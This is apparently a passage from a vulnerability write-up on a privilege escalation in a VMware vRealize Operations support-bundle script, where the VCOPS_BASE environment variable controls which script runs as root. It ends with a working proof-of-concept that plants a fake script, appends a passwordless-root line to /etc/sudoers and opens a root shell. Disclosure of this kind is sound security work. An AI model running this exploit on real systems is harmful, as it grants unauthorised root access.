 The code heavily depends on the `VCOPS_BASE` environment variable at *[1]*. When running the script, the following code is executed:

```py
ds = []
if options.get("action") is None:
    options["action"] = 'create'
#...
if options.get("action") == 'create':
    runGssTroubleShootingScript() # 2
```

The `runGssTroubleShootingScript` method is called if action is not supplied at *[2]*.

```py
def runGssTroubleShootingScript():
    gss_troubleshooting_script_path = os.path.join(find_vcops_base_path(), "..", "vmware-vcopssuite", "utilities", "bin") # 3

    try:
        output = subprocess.Popen("{0}/gss_troubleshooting.sh".format(gss_troubleshooting_script_path))
    except subprocess.CalledProcessError as e:
        print ('Failed to run gss troubleshooting script, error code {0}:'.format(e.returncode))
```

At *[3]*, that method attempts to call an executable script as root and uses `find_vcops_base_path` to get the path location of the script:

```py
def find_vcops_base_path():
    """Finds the VCOPS_BASE environment variable.
    @return: the VCOPS_BASE path or an exception if it cannot be found.
    """
    if 'VCOPS_BASE' in os.environ:
        vcops_base_path = os.environ['VCOPS_BASE'] # 4
    elif 'ALIVE_BASE' in os.environ:
        vcops_base_path = os.environ['ALIVE_BASE']
   # ...
   return vcops_base_path # 5
```

At *[4]* and *[5]* if the `VCOPS_BASE` environment variable is set, it will return that.

## Exploitation

All an attacker needs to do is setup the environment variable before calling the script to elevate privileges.

```sh
#!/bin/sh
mkdir -p poc
mkdir -p vmware-vcopssuite/utilities/bin/
cat <<EOT > vmware-vcopssuite/utilities/bin/gss_troubleshooting.sh
#!/bin/sh
echo "admin ALL = NOPASSWD: ALL" >> /etc/sudoers
EOT
chmod 755 vmware-vcopssuite/utilities/bin/gss_troubleshooting.sh
sudo VCOPS_BASE=poc /usr/lib/vmware-vcopssuite/python/bin/python /usr/lib/vmware-vcopssuite/utilities/bin/generateSupportBundle.py test > /dev/null 2>&1
sudo rm -rf poc
sudo rm -rf vmware-vcopssuite
sudo sh
sudo sed -i '$ d' /etc/sudoers
```
